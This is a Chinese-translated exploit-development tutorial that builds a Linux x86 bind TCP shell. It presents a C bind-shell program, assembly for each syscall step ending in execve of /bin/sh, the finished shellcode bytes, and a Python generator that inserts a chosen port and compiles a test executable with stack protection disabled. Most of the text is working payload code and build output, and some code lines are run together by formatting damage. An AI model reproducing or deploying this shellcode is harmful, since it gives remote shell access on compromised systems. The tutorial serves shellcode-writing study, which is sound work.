





# [ExpDev]绑定 TCP 外壳代码

> 原文：<https://infosecwriteups.com/expdev-bind-tcp-shellcode-cebb5657a997?source=collection_archive---------0----------------------->

# **什么是绑定外壳？**

Bind TCP 在受害者系统上打开一个端口。如果攻击者可以利用受害者系统上的漏洞，她可以植入一个绑定外壳并从远程攻击机器连接到它。然而，由于防火墙和检测控制，反向 TCP shell 比绑定 TCP shell 更受欢迎。



绑定外壳

# **套接字编程**

在 shellcode 中创建我们的 Bind TCP Shell 之前，我们需要理解套接字编程。

> 注意:套接字编程是一种连接网络上两个节点以相互通信的方式。



为了更好地理解 Bind TCP，让我们用更高级的编程语言创建一个 Bind TCP Shell。我们将使用`C`:

```
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>int main()
{
  int sockfd, acceptfd;
  int port = 9001; **// Server Address struct**
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(port);
  addr.sin_addr.s_addr = INADDR_ANY; **// 1) Socket Creation (sys_socket 1)** sockfd = socket(AF_INET, SOCK_STREAM, 0); **// 2) Bind() Syscall (sys_bind 2)** bind(sockfd, (struct sockaddr *) &addr, sizeof(addr)); **// 3) Listen() Syscall (sys_listen 4)** listen(sockfd, 0); **// 4) Accept() Syscall (sys_accept 5)**
  acceptfd = accept(sockfd, NULL, NULL); **// 5) Dup2() Syscall** dup2(acceptfd, 0);  // stdin
  dup2(acceptfd, 1);  // stdout
  dup2(acceptfd, 2);  // stderr **// 6) Execve() Syscall** execve("/bin/sh", NULL, NULL);
  return 0;
}
```

我们来编译一下:

```
# gcc bind-tcp-shell.c -o bind-tcp-shell
```

编译后的二进制可以成功打开一个 bind shell，我们可以通过`nc`连接到它。



# **外壳代码**

对于我们的绑定 TCP Shell 外壳代码，我们需要使用所有那些`syscalls`:

1.  **插座** —启动插座连接
2.  **Bind**—`bind()`将 addr 指定的地址分配给文件描述符`sockfd`引用的套接字。
3.  **监听** —监听来电连接
4.  **接受**—`accept()`系统调用用于基于连接的套接字类型(SOCK_STREAM，SOCK_SEQPACKET)
5.  **Dup2** —管理文件描述符的`stdin`、`stdout`和`stderr`。这对于输入和输出重定向是必要的。
6.  **执行** —执行一个命令(`/bin/sh`生成一个外壳)

## **系统调用+函数调用**

首先，我们需要收集`socketcall()`和其他`syscalls`的参数。

> 注意:socketcall()是套接字系统调用的一个公共内核入口点。

通过查询`/usr/include/i386-linux-gnu/asm/unistd_32.h`，我们可以为`syscalls`收集以下参数:

```
#define __NR_socketcall 102 → Hex: 0x66
#define __NR_bind 361       → Hex: 0x169
#define __NR_listen 363     → Hex: 0x16b
#define __NR_accept4 364    → Hex: 0x16c
#define __NR_dup2 63        → Hex: 0x3f
#define __NR_execve 11      → Hex: 0xb
```

此外，通过查看`/usr/include/linux/net.h`，我们还可以获得函数调用的参数:

```
# cat /usr/include/linux/net.h | grep SYS
#define SYS_SOCKET 1 /* sys_socket(2) */
#define SYS_BIND 2 /* sys_bind(2) */
#define SYS_CONNECT 3 /* sys_connect(2) */
#define SYS_LISTEN 4 /* sys_listen(2) */
#define SYS_ACCEPT 5 /* sys_accept(2) */
#define SYS_GETSOCKNAME 6 /* sys_getsockname(2) */
#define SYS_GETPEERNAME 7 /* sys_getpeername(2) */
#define SYS_SOCKETPAIR 8 /* sys_socketpair(2) */
#define SYS_SEND 9 /* sys_send(2) */
#define SYS_RECV 10 /* sys_recv(2) */
#define SYS_SENDTO 11 /* sys_sendto(2) */
#define SYS_RECVFROM 12 /* sys_recvfrom(2) */
#define SYS_SHUTDOWN 13 /* sys_shutdown(2) */
#define SYS_SETSOCKOPT 14 /* sys_setsockopt(2) */
#define SYS_GETSOCKOPT 15 /* sys_getsockopt(2) */
#define SYS_SENDMSG 16 /* sys_sendmsg(2) */
#define SYS_RECVMSG 17 /* sys_recvmsg(2) */
#define SYS_ACCEPT4 18 /* sys_accept4(2) */
#define SYS_RECVMMSG 19 /* sys_recvmmsg(2) */
#define SYS_SENDMMSG 20 /* sys_sendmmsg(2) */
```

## **初始化**

首先，让我们将我们要使用的一些寄存器清零:

```
global _startsection     .text_start:xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
```

## **插座()**

让我们创建`socket()`外壳代码:

```
**; 1) Socket Creation
; sockfd = socket(AF_INET, SOCK_STREAM, 0);**mov al, 0x66    ; #define __NR_socketcall 102   --> Hex: 0x66
mov bl, 0x1     ; #define SYS_SOCKET 1
push edx        ; int protocol = 0
push ebx        ; int SOCK_STREAM = 1
push 0x2        ; int AF_INET = 2
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_SOCKET
mov edi, eax    ; Save the sockfd to EDI
```

## **服务器地址结构**

让我们创建服务器地址`struct`外壳代码:

```
**;   struct sockaddr_in addr;
;   addr.sin_family = AF_INET; 
;   addr.sin_port = htons(port);    //4444
;   addr.sin_addr.s_addr = INADDR_ANY;**push edx          ; NULL Padding
push edx          ; NULL Padding
push edx          ; sin_addr = 0.0.0.0
push word 0x5c11  ; port = 4444
push word 0x2     ; int AF_INET = 2
mov esi, esp      ; Move stack pointer to ESI
```

## **Bind()**

让我们创建`bind()`外壳代码:

```
**; 2) Bind
; bind(sockfd, (struct sockaddr *) &addr, sizeof(addr));**mov al, 0x66    ; socketcall = 102
mov bl, 0x2     ; #define SYS_BIND  2
push 0x10       ; sizeof(addr) = 10
push esi        ; ESI = Server Address struct
push edi        ; EDI = sockfd
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_BIND
```

## **听()**

让我们创建`listen()`外壳代码:

```
**; 3) Listen
; listen(sockfd, 0);**mov al, 0x66    ; socketcall = 102
mov bl, 0x4     ; #define SYS_LISTEN    4
push edx        ; int backlog = 0
push edi        ; EDI = sockfd
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_LISTEN
```

## **接受()**

让我们创建`accept()`外壳代码:

```
**; 4) Accept
; acceptfd = accept(sockfd, NULL, NULL);**mov al, 0x66    ; socketcall = 102
mov bl, 0x5     ; #define SYS_ACCEPT    5
push edx        ; NULL
push edx        ; NULL
push edi        ; EDI = sockfd
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_ACCEPT
mov edi, eax
```

## **Dup2()**

让我们创建`dup2()`外壳代码:

```
**; 5) Dup2 - Input and Output Redirection
; dup2(acceptfd, 0);    // stdin
; dup2(acceptfd, 1);    // stdout
; dup2(acceptfd, 2);    // stderr**xor ecx, ecx    ; Zero out
mov cl, 0x3     ; Set the counterloop:
xor eax, eax    ; Zero out
mov al, 0x3f    ; #define __NR_dup2 63  --> Hex: 0x3f
mov ebx, edi    ; New sockfd
dec cl          ; Decrementing the counter by 1
int 0x80jnz loop        ; Jump back to the beginning of the loop until CL is set to zero flag
```

## **Execve()**

让我们创建`execve()`外壳代码:

```
**; 6) Execve
; execve("/bin/sh", NULL, NULL);**push edx            ; NULL
push 0x68732f6e     ; "hs/n"  <-- //bin/sh
push 0x69622f2f     ; "ib//"
mov ebx, esp        ; Move stack pointer to EBX
push edx            ; NULL terminator
push ebx
mov ecx, esp        ; Move stack pointer to ECX
mov al, 0xb         ; #define __NR_execve   11  --> Hex: 0xb
int 0x80            ; Execute SYS_EXECVE
```

## **最终外壳代码(bing-tcp-shell.nasm)**

让我们把所有东西放在一起，测试外壳代码。

```
global _startsection     .text_start:xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx**; 1) Socket Creation
; sockfd = socket(AF_INET, SOCK_STREAM, 0);**mov al, 0x66    ; #define __NR_socketcall 102   --> Hex: 0x66
mov bl, 0x1     ; #define SYS_SOCKET 1
push edx        ; int protocol = 0
push ebx        ; int SOCK_STREAM = 1
push 0x2        ; int AF_INET = 2
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_SOCKET
mov edi, eax    ; Save the sockfd to EDI**; Server Address struct**push edx          ; NULL Padding
push edx          ; NULL Padding
push edx          ; sin_addr = 0.0.0.0
push word 0x5c11  ; port = 4444
push word 0x2     ; int AF_INET = 2
mov esi, esp      ; Move stack pointer to ESI**; 2) Bind
; bind(sockfd, (struct sockaddr *) &addr, sizeof(addr));**mov al, 0x66    ; socketcall = 102
mov bl, 0x2     ; #define SYS_BIND  2
push 0x10       ; sizeof(addr) = 10
push esi        ; ESI = Server Address struct
push edi        ; EDI = sockfd
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_BIND**; 3) Listen
; listen(sockfd, 0);**mov al, 0x66    ; socketcall = 102
mov bl, 0x4     ; #define SYS_LISTEN    4
push edx        ; int backlog = 0
push edi        ; EDI = sockfd
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_LISTEN**; 4) Accept
; acceptfd = accept(sockfd, NULL, NULL);**mov al, 0x66    ; socketcall = 102
mov bl, 0x5     ; #define SYS_ACCEPT    5
push edx        ; NULL
push edx        ; NULL
push edi        ; EDI = sockfd
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_ACCEPT
mov edi, eax**; 5) Dup2 - Input and Output Redirection
; dup2(acceptfd, 0);    // stdin
; dup2(acceptfd, 1);    // stdout
; dup2(acceptfd, 2);    // stderr**xor ecx, ecx    ; Zero out
mov cl, 0x3     ; Set the counterloop:
xor eax, eax    ; Zero out
mov al, 0x3f    ; #define __NR_dup2 63  --> Hex: 0x3f
mov ebx, edi    ; New sockfd
dec cl          ; Decrementing the counter by 1
int 0x80jnz loop        ; Jump back to the beginning of the loop until CL is set to zero flag**; 6) Execve
; execve("/bin/sh", NULL, NULL);**push edx         ; NULL
push 0x68732f6e  ; "hs/n"  <-- //bin/sh
push 0x69622f2f  ; "ib//"
mov ebx, esp     ; Move stack pointer to EBX
push edx         ; NULL terminator
push ebx
mov ecx, esp     ; Move stack pointer to ECX
mov al, 0xb      ; #define __NR_execve   11  --> Hex: 0xb
int 0x80         ; Execute SYS_EXECVE
```

# **编译**

我创建了一个简单的编译器 [compilerX86.py](https://github.com/bigb0sss/ASM_Learning/blob/master/compilerX86.py) 。使用它，我们可以:

*   将``bind-tcp-shell.nasm`'编译成二进制
*   从二进制文件中提取外壳代码以创建``shellcode.c``文件
*   使用“`gcc`”将“`shellcode.c`”编译成二进制文件

```
# python compilerX86.py -f bind-tcp-shell

[+] Assemble: bind-tcp-shell.nasm
[+] Linking: bind-tcp-shell.o
[+] Shellcode: "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\x52\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\xb0\x66\xb3\x02\x6a\x10\x56\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x57\x89\xe1\xcd\x80\x89\xc7\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```



# **最终触摸**

最后，我创建了下面的 [python 脚本](https://github.com/bigb0sss/SLAE32/blob/master/Assignment-1/bind-tcp-shell.py)来改变用户输入的端口号，并自动创建和编译`C`二进制文件。

```
**# bind-tcp-shell.py**import sys
import argparse
import subprocess
import string
import socket""" Arguments """
parser = argparse.ArgumentParser(description = '[+] Bind TCP Shell Generator')
parser.add_argument('-p', '--port', help='\tBind Port')
args = parser.parse_args()def error():
    parser.print_help()
    exit(1)def exploit(port):

    # Bind TCP Shell 
    shellcode = '\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2'
    shellcode+= '\\xb0\\x66\\xb3\\x01\\x52\\x53\\x6a\\x02'
    shellcode+= '\\x89\\xe1\\xcd\\x80\\x89\\xc7\\x52\\x52'
    shellcode+= '\\x52\\x66\\x68'

    print "[INFO] Bind Port: " + portport = hex(socket.htons(int(port)))
    a = port[2:4]
    b = port[4:]
    if b == '':
        b = '0'
    port = '\\x{0}\\x{1}'.format(b, a)#port = '\\x11\\x5c' = 4444

    shellcode2 = '\\x66\\x6a\\x02\\x89\\xe6\\xb0\\x66\\xb3'
    shellcode2+= '\\x02\\x6a\\x10\\x56\\x57\\x89\\xe1\\xcd'
    shellcode2+= '\\x80\\xb0\\x66\\xb3\\x04\\x52\\x57\\x89'
    shellcode2+= '\\xe1\\xcd\\x80\\xb0\\x66\\xb3\\x05\\x52'
    shellcode2+= '\\x52\\x57\\x89\\xe1\\xcd\\x80\\x89\\xc7'
    shellcode2+= '\\x31\\xc9\\xb1\\x03\\x31\\xc0\\xb0\\x3f'
    shellcode2+= '\\x89\\xfb\\xfe\\xc9\\xcd\\x80\\x75\\xf4'
    shellcode2+= '\\x52\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f'
    shellcode2+= '\\x2f\\x62\\x69\\x89\\xe3\\x52\\x53\\x89'
    shellcode2+= '\\xe1\\xb0\\x0b\\xcd\\x80'# Adding shellcode to shellcode.c
    outShellcode = ''
    outShellcode+= '#include<stdio.h>\n'
    outShellcode+= '#include<string.h>\n'
    outShellcode+= '\n'
    outShellcode+= 'unsigned char code[] = \ \n'
    outShellcode+= '"{0}{1}{2}";'.format(shellcode, port, shellcode2)
    outShellcode+= '\n'
    outShellcode+= 'main()\n'
    outShellcode+= '{\n'
    outShellcode+= 'printf("Shellcode Length:  %d", strlen(code));\n'
    outShellcode+= '\tint (*ret)() = (int(*)())code;\n'
    outShellcode+= '\tret();\n'
    outShellcode+= '}\n'
    #print outShellcode# Creating shellcode.c
    filename = "exploit.c"
    outfile = open(filename, 'w')
    outfile.write(outShellcode)
    outfile.close()print "[INFO] Creating File: exploit.c"# Compiling shellcode.c
    subprocess.call(["gcc", "-fno-stack-protector", "-z", "execstack", filename, "-o", "exploit", "-w"])
    print "[INFO] Compiled Executable: exploit"if __name__ == "__main__":
    inputPort = args.port if args.port != None else error()exploit(inputPort)
```



感谢阅读！